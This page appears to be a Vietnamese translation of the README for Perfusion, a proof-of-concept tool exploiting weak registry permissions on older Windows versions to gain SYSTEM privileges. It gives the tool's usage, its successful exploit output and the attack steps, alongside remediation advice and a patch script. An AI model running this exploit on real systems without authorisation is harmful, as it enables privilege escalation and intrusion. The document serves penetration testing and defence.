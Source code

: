 ```yaml
---
title: Perfusion Demo
date: 12/11/2021
layout: single
header:
  teaser: https://anomali.cdn.rackfoundry.net/images/made/images/uploads/blog/ogThe-Power-of-an-Exploit_1200_603.jpg
---
```


# Perfusion
Tác giả: itm4n

Mã Nguồn: [itm4n/Perfusion](https://github.com/itm4n/Perfusion) 

 + Trong __Windows 7__, __Windows Server 2008R2__, __Windows 8__, và __Windows Server 2012__, khóa đăng ký của dịch vụ `RpcEptMapper` và` DnsCache` (chỉ dành cho 7 / 2008R2) được định cấu hình với quyền yếu. Bất kỳ người dùng cục bộ nào cũng có thể tạo khóa con `Performance` và sau đó tận dụng ___Windows Performance Counters___ để tải một DLL tùy ý trong ngữ cảnh của dịch vụ WMI là` NT AUTHORITY \ SYSTEM` (do đó có tên là công cụ).

+ Công cụ này nhằm giúp các nhà tư vấn bảo mật trong quá trình kiểm tra thâm nhập. Phần mềm này được cung cấp nguyên trạng và tác giả có thể sẽ không cung cấp bất kỳ hỗ trợ nào. Mặc dù vậy, tôi đã thử nghiệm nó kỹ lưỡng trên ba máy ảo khác nhau nên không có vấn đề gì đáng kể.

Một bài phân tích chi tiết về nó: [windows-registry-rpceptmapper-eop/](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)

<p align="center">
  <img src="https://raw.githubusercontent.com/itm4n/Perfusion/master/demo.gif">
</p>

## Nguồn thông tin: 2021-04-21 Cập nhật

+ Theo [0patch](https://twitter.com/0patch/status/1384495698373120002), lỗ hổng này đã được sửa một phần với Bản cập nhật Windows tháng 4 năm 2021 (ESU). Điều này có nghĩa là các máy chạy phiên bản cập nhật của Windows 8 / Server 2012 sẽ không thể khai thác được nữa. Tuy nhiên, Windows 7 / Server 2008 R2 vẫn dễ bị tấn công. Bạn chỉ cần sử dụng khóa đăng ký `Dnscache` hơn là `RpcEptMapper`. Tôi đã cập nhật PoC để bạn có thể chỉ định thủ công bằng tùy chọn `-k`.

```powershell
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_2900_368_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[+] Exploit completed. Got a SYSTEM token! :)
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Temp>whoami
nt authority\system

C:\Temp>
```

:x: Đây là những gì bạn sẽ thấy khi khai thác không thành công

```powershell
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_636_3000_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[-] Exploit completed but no SYSTEM Token. :/
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.

C:\Temp>
```

## Build instructions

Giải pháp này bao gồm hai dự án cần được biên dịch theo một thứ tự cụ thể. Mọi thứ đều được định cấu hình trước, vì vậy bạn chỉ cần làm theo các hướng dẫn đơn giản sau

1. Mở Giải pháp với Visual Studio 2019
2. Select `Release / x64`
3. `Build > Build Solution`

## Usage

Bạn có thể kiểm tra thông báo trợ giúp bằng cách sử dụng tùy chọn `-h`.

```powershell
C:\TOOLS>Perfusion.exe -h
 _____         ___         _
|  _  |___ ___|  _|_ _ ___|_|___ ___
|   __| -_|  _|  _| | |_ -| | . |   |  version 0.2
|__|  |___|_| |_| |___|___|_|___|_|_|  by @itm4n

Description:
  Exploit tool for the RpcEptMapper registry key vulnerability.

Options:
  -c <CMD>  Command - Execute the specified command line
  -i        Interactive - Interact with the process (default: non-interactive)
  -d        Desktop - Spawn a new process on your desktop (default: hidden)
  -k <KEY>  Key - Either 'RpcEptMapper' or 'Dnscache' (default: 'RpcEptMapper')
  -h        Help - That's me :)
```

## Remediation / Patch

Các phiên bản Windows sau dễ bị tấn công:

| Windows version | Vulnerable registry keys |
| --- | --- |
| Windows 7 | RpcEptMapper, DnsCache |
| Windows Server 2008R2 | RpcEptMapper, DnsCache |
| Windows 8 | RpcEptMapper |
| Windows Server 2012 | RpcEptMapper |

+ Theo những gì tôi được biết, lỗ hổng này sẽ không được Microsoft sửa chữa vì một số lý do. Giải pháp tốt nhất vẫn là nâng cấp lên Windows 10 / Server 2019 nhưng nếu đó không phải là lựa chọn ngắn hạn, bạn vẫn có thể tự vá sự cố này bằng cách xóa quyền `CreateSubKey` cho cả `NT AUTHORITY\Authenticated Users` và `BUILTIN\Users` trên các khóa đăng ký sau:

- `HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper`
- `HKLM\SYSTEM\CurrentControlSet\Services\DnsCache`

+ Tác giả đã tạo bản vá cho lỗ hổng bảo mật này dưới dạng tập lệnh PowerShell: [RegistryPatch.ps1] (RegistryPatch.ps1). Tập lệnh này loại bỏ `CreateSubKey` ngay trên hai khóa đăng ký nêu trên cho các danh tính sau:` NT AUTHORITY \ INTERACTIVE`, `BUILTIN \ Users` và / hoặc` BUILTIN \ Authenticated Users`

- __Kiểm tra xem máy có dễ bị tổn thương không:__ (Windows Server 2012 here)

```powershell
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Verbose
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
True
```

- __Áp dụng các bản vá:__ (Windows Server 2008 R2 here)

```powershell
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Patch -Verbose 
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: The new ACL was applied
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\INTERACTIVE" has "QueryValues, CreateSubKey, EnumerateSubKeys, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "CreateSubKey, ReadKey" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: The new ACL was applied
True
```

## How does this exploit work?

Dưới đây là các bước khai thác được thực hiện trong công cụ này:

1. Tiến trình được tạo ở chế độ nền ở trạng thái treo (sử dụng dòng lệnh được chỉ định).
2. DLL trọng tải nhúng được ghi vào thư mục `Temp` của người dùng hiện tại.
3. Khóa `Performance` được tạo trong` HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper` và được điền các giá trị thích hợp, bao gồm cả đường dẫn đầy đủ của DLL đã được tạo ở bước 2.
4. Lớp WMI `Win32_Perf` được tạo và gọi để kích hoạt bộ sưu tập _Windows Performance Counters_.
5. DLL được tải bởi dịch vụ WMI dưới dạng `NT AUTHORITY\SYSTEM` hoặc` NT AUTHORITY\LOCAL SERVICE`.
6. Nếu DLL được tải bởi `NT AUTHORITY\SYSTEM`, Mã thông báo của nó sẽ được sao chép và được áp dụng cho Quy trình do người dùng tạo ban đầu ở bước 1.
7. Mọi thứ được dọn dẹp và Chủ đề chính của Quy trình bị treo được tiếp tục.
